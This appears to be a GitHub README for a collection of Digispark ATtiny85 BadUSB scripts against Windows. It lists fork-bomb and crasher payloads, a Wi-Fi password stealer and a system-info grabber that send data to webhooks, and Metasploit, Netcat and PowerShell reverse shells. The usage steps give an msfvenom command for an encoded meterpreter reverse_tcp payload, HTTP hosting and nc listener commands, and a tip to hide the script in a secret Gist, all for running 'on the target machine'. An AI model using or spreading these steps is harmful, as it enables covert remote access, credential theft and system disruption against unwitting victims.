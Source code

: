 # 💀 Digispark Attiny85 Scripts for Windows 💀

## 📌 About This Repository

This repository is dedicated to storing scripts for the Digispark Attiny85 while promoting knowledge sharing. The scripts will be updated over time as I gain more experience! 😊

⚠ **Disclaimer:** These scripts are for educational purposes only. Use them at your own risk!

✅ Compatible with **Windows, Linux, and Termux!**

<p align="center">
    <img width="400" height="400" src="https://github.com/EndlssNightmare/Digispark-scripts/assets/110058202/7cf31e71-e6ac-4a74-ac69-3762e93ea66f">
</p>

---

## 🚀 Available Scripts

- **Fakeupdate** 🃏 - Displays a fake Windows update screen.
- **ForkBomb** 💥 - Creates an infinite loop, causing a system crash.
- **Grab-WindowsSysinfo** 👽 - Collects system information.
- **Metasploit-Revshell** 💔 - Reverse shell using Metasploit.
- **Netcat-Revshell** 🐱 - Reverse shell using Netcat.
- **Revshell-ps1** 🐀 - PowerShell-based reverse shell.
- **Steal-Wifi-Passwd** 😈 - Extracts saved Wi-Fi passwords.
- **Wallpaper-Prank** 😵 - Changes desktop wallpaper and hides icons.
- **Windows-Crasher** 💥 - Creates a batch payload to crash Windows.

---

## 🔧 Dependencies

To use these scripts, install the following:

- **Digistump Packages:** [DigistumpArduino](https://github.com/digistump/DigistumpArduino)
- **Digispark ABNT2:** [DigisparkABNT2](https://github.com/jcldf/digisparkABNT2)
- **Arduino IDE:** [Download here](https://www.arduino.cc/en/software)
- **Metasploit Framework:** [Metasploit Website](https://www.metasploit.com)

---

## 📖 How to Use

### 🔹 Fakeupdate

This script opens a fake Windows update website in full screen.

**Steps:**
1. Upload the "Fakeupdate" script to Digispark.
2. Run it on the target machine.

---

### 🔹 ForkBomb

This script runs an infinite loop until the system crashes.

**Steps:**
1. Upload the "ForkBomb" script to Digispark.
2. Run it on the target machine.

---

### 🔹 Grab-WindowsSysinfo

This script extracts system information and sends it via a webhook.

**Steps:**
1. Replace the webhook URL in the script.
2. Upload the "Grab-WindowsSysinfo" script to Digispark.
3. Run it on the target machine.

---

### 🔹 Metasploit-Revshell

This script creates a Metasploit reverse shell.

**Steps:**
1. Generate a payload:
   ```bash
   msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=YOUR_IP lport=443 -e x86/shikata_ga_nai -i 7 -f exe -o exploit.exe
   ```
2. Edit `meta.rc` and start Metasploit:
   ```bash
   msfdb reinit && msfconsole -r meta.rc
   ```
3. Host the file:
   ```bash
   python3 -m http.server 80
   ```
4. Upload the "Metasploit-Revshell" script to Digispark and execute it.

---

### 🔹 Netcat-Revshell

This script establishes a reverse shell using Netcat.

**Steps:**
1. Start an HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. Listen for the connection:
   ```bash
   nc -lvnp 443  # Or use ncat/pwncat-cs
   ```
3. Upload and run the "Netcat-Revshell" script.

---

### 🔹 Revshell-ps1

This PowerShell script creates a reverse shell.

**Steps:**
1. Upload the .ps1 script to a secret GitHub Gist.
2. Copy the raw link into the Arduino IDE.
3. Listen for the connection:
   ```bash
   nc -lvnp 443  # Or use ncat/pwncat-cs
   ```
4. Upload and run the "Revshell-ps1" script.

---

### 🔹 Steal-Wifi-Passwd

This script extracts saved Wi-Fi passwords and sends them via a webhook.

**Steps:**
1. Replace the webhook URL in the script.
2. Upload and run the "Steal-Wifi-Passwd" script.

---

### 🔹 Wallpaper-Prank

This script takes a screenshot of the desktop, sets it as the wallpaper, and hides icons.

**Steps:**
1. Upload and run the "Wallpaper-Prank" script.

---

### 🔹 Windows-Crasher

This script generates a batch file to crash Windows.

**Steps:**
1. Upload and run the "Windows-Crasher" script.

---

## 🔗 References and Credits

- [CedArctic](https://github.com/CedArctic/DigiSpark-Scripts)
- [Brunomlima](https://github.com/brunomlima/Digispark)
- [Gadotti](https://github.com/Gadotti/DigisparkScripts)

---

Enjoy experimenting responsibly! 😈

